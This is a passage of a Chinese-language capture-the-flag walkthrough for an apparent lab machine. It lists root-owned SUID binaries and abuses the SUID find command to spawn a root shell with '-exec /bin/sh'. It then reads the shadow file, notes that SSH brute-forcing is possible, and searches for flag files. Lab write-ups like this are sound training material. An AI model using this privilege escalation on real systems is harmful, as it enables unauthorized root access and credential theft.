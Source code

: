 我们回到 shell 中使用 find / -user root -perm -4000 -print 2>/dev/null，命令查找具有 root 权限的 SUID 的文件。

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JUmicyPea7QkS9RrYbGicTjbA0KgX3jB8d59ZJzLX92r6O5kvicNv0XWh5icJpu9fncIj4CrpSE8fRocg/640?wx_fmt=png)

```
$ find / -user root -perm -4000 -print 2>/dev/null
find / -user root -perm -4000 -print 2>/dev/null
/bin/mount
/bin/ping
/bin/su
/bin/ping6
/bin/umount
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/find
/usr/sbin/exim4
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/sbin/mount.nfs
```

我们随便找一个命令进行利用，我们就找 find，先查看其信息，发现其确实是 root 用户权限的 SUID 的文件

```
find . -exec /bin/sh ; -quit
```

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JUmicyPea7QkS9RrYbGicTjbAO2HibZqB0NLNibImxiafr1WWxCA0cKM18PbHGQX7mVJOxhTFzRIQZVkmw/640?wx_fmt=png)

拿到了 root 权限，查看 shadow 文件  
发现 flag4，并且 flag4 是一个用户，flag4 用户密码可以使用 ssh 登录进行爆破，先不爆破。

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JUmicyPea7QkS9RrYbGicTjbAyjOAQcrgPmylyUs1u4GHx8lvYMnN9pI9Xds1AgCvdFJtLf7dzJ29Ew/640?wx_fmt=png)

使用 root 用户直接查找

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JUmicyPea7QkS9RrYbGicTjbAS2gaicqHKFHw0x13XxxYTvwibvCUib1Gbuy5licRZRPr9PQ0v4omIkibKgw/640?wx_fmt=png)

find -name “flag4.txt” 命令拿到 flag4.

**获取 flag5**

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JUmicyPea7QkS9RrYbGicTjbApe0zTwtX5Gnff9roGlHicTTyYvC8qghEeZKxWUHX44QemDXVWGCWM7w/640?wx_fmt=png)

使用 find 配合正则进行一个模糊搜索。  
find * -name "*.txt" 搜索所有. txt 的文件。

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JUmicyPea7QkS9RrYbGicTjbAyke7MzkibRAMTDFlZASlCTzWhzSLpib5ia4TrDqauAobU86UJPLsuGUEQ/640?wx_fmt=png)
